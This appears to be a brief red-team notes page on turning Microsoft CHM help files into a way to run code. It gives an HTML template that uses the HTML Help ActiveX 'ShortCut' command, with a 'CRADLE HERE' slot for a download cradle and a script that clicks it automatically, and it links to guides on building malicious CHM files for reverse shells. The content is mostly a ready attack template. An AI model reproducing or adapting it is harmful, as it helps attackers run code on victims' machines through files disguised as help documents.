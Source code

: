 # ⭕ CHM / HHC

These are Microsoft's online help format, these consist of HTML pages, indexes and other navigation tools. These files are then compressed in a file format called .CHM, also known as compiled CHM. Numerous amount of CHM file programs exist, for example, you could use Microsoft's HTML Help Workshop.

example:

```
<!DOCTYPE html><html><head><title>Click Me</title><head></head><body>
This is a demo ! <br>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value='CRADLE HERE'>
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

{% embed url="https://rioasmara.com/2020/09/02/create-chm-for-reverse-shell-nishang" %}

{% embed url="https://chamindunayantha.wordpress.com/2021/02/07/creating-a-malicious-chm-file" %}

{% embed url="https://sevenlayers.com/index.php/316-malicious-chm" %}

{% embed url="https://abysssec.com/blog/2008/12/execute-with-chm-file" %}

{% embed url="https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7" %}

## <mark style="color:red;">STC & CHM</mark>

{% embed url="https://www.puckiestyle.nl/sct-chm-exploit" %}

